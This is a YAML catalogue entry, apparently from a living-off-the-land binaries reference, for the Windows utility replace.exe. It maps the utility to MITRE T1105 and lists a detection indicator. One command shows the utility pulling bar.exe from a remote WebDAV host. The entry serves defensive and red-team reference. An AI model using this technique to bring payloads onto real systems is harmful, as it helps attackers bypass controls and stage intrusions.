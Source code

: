 ```yaml
---
Name: Replace.exe
Description: Used to replace file with another file
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: replace.exe C:\Source\File.cab C:\Destination /A
    Description: Copy file.cab to destination
    Usecase: Copy files
    Category: Copy
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
    Description: Download/Copy bar.exe to outdir
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\replace.exe
  - Path: C:\Windows\SysWOW64\replace.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Replace.exe getting files from remote server
Resources:
  - Link: https://twitter.com/elceef/status/986334113941655553
  - Link: https://twitter.com/elceef/status/986842299861782529
Acknowledgement:
  - Person: elceef
    Handle: "@elceef"
---
```

